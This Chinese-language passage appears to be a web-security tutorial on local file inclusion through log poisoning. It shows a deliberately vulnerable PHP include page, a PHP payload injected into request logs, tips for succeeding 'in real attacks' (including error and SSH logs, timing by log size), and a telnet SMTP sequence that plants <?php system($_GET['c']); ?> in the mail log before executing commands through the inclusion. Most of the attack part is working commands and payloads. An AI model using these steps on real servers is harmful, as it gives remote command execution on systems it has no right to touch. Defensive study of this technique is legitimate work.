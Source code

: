 ```php
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    </head> 
    <body>
        <center>
            <h2>测试页： rf=include($input);</h2>
            <h3>----测试完毕后请立即删除----</h3>
        </center>
    </body>
</html>
```

首先我们截获数据包，在传入参数的地方输入

```php
<?php phpinfo();?>
```

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%971.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%971.png)

之后我们就会在access.log 中看到我们的请求

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%972.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%972.png)

尝试包含

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%973.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%973.png)

可以看到我们成功的包含了日志文件

**注意：**

(1)除了我们包含 access.log 以外，我们还可以制造错误，然后包含 error.log
(2)如果出现包含不成功的情况，很有可能就是被 open_base_dir() 限制了
(3)实战中最好在凌晨的时候进行包含，要不然日志太大包含会失败
(4)除了 apache 和 nginx 的日志 还有很多其他的日志我们能利用，比如说 ssh 的日志

[LFI到SMTP日志投毒](https://xz.aliyun.com/t/3799#toc-2)

```shell
nmap -p25 192.168.1.107
telnet 192.168.1.107 25
MAIL FROM:<rrajchandel@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>
192.168.1.107/lfi/lfi.php?file=/var/log/mail.log &c=ifconfig
```
